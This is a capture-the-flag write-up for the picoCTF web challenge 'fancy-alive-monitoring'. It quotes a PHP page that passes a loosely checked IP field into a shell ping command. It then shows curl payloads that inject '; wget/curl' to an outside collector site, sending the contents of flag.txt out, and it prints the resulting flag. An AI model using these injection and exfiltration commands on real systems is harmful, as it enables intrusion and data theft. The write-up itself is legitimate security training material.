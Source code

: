 # fancy-alive-monitoring (Web)

>One of my school mate developed an alive monitoring tool.
>Can you get a flag from http://2018shell1.picoctf.com:43316 (link)? 

### [~$ cd ..](../)

We are landed in front of a really simple website:

![site](site.png)

The source we are given is as follows:

> ```html
><html>
><head>
>	<title>Monitoring Tool</title>
>	<script>
>	function check(){
>		ip = document.getElementById("ip").value;
>		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
>		if (!chk) {
>			alert("Wrong IP format.");
>			return false;
>		} else {
>			document.getElementById("monitor").submit();
>		}
>	}
>	</script>
></head>
><body>
>	<h1>Monitoring Tool ver 0.1</h1>
>	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
>	<p> Input IP address of the target host
>	<input id="ip" name="ip" type="text">
>	</p>
>	<input type="button" value="Go!" onclick="check()">
>	</form>
>	<hr>
>
><?php
>$ip = $_POST["ip"];
>if ($ip) {
>	// super fancy regex check!
>	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
>		exec('ping -c 1 '.$ip, $cmd_result);
>		foreach($cmd_result as $str){
>			if (strpos($str, '100% packet loss') !== false){
>				printf("<h3>Target is NOT alive.</h3>");
>				break;
>			} else if (strpos($str, ', 0% packet loss') !== false){
>				printf("<h3>Target is alive.</h3>");
>				break;
>			}
>		}
>	} else {
>		echo "Wrong IP Format.";
>	}
>}
>?>
><hr>
><a href="index.txt">index.php source code</a>
></body>
></html>
> ```

Fancy regex on server side, uh? Well, for some unknown reason, the regex's are not the same! On the server, we can append data at the end.
However, we had to find a way to exfiltrate the result of the command, since it's not displayed by the actual script.

We first created a temporary URL grabber on [postb.in](postb.in), and then used `curl` to bypass the Javascript sanity check:

> ```sh
>% curl --data 'ip=8.8.8.8 1> /dev/null; wget "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
>% curl --data 'ip=8.8.8.8 1> /dev/null; curl "http://postb.in/tAZgj8lO?p=$(cat flag.txt)"' http://2018shell1.picoctf.com:43316/ -v
> ```

The first part of the command redirects the standard output of the command to `/dev/null`, which allows the PHP script to continue until the end. The second
part, after the semi-colon exfiltrate the flag, and we got: **picoCTF{n3v3r_trust_a_b0x_c4a9b715}**


